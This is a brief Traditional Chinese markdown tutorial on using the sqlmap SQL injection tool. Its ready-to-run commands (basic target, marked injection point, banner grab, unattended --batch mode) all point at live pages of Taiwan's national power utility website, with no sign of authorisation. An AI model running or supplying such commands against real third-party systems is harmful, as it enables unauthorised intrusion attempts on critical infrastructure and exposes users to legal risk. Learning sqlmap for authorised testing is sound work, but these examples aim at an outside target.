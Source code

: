 # 如何使用 sqlmap

### 檢查 sqlmap 有沒有安裝
```sh
sqlmap --version
```

### 指定目標，後面加 -u
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44"
```

### 手動指定參數位置，後面加*
```sh
sqlmap -u "https://iest.taipower.com.tw/Home/PublicationDetail/32*"
```

### 列出目標版本號，後面加 --banner
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44" --banner
```

### 用預設答案回答所有 sqlmap 問題，後面加 --batch
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44" --batch
```
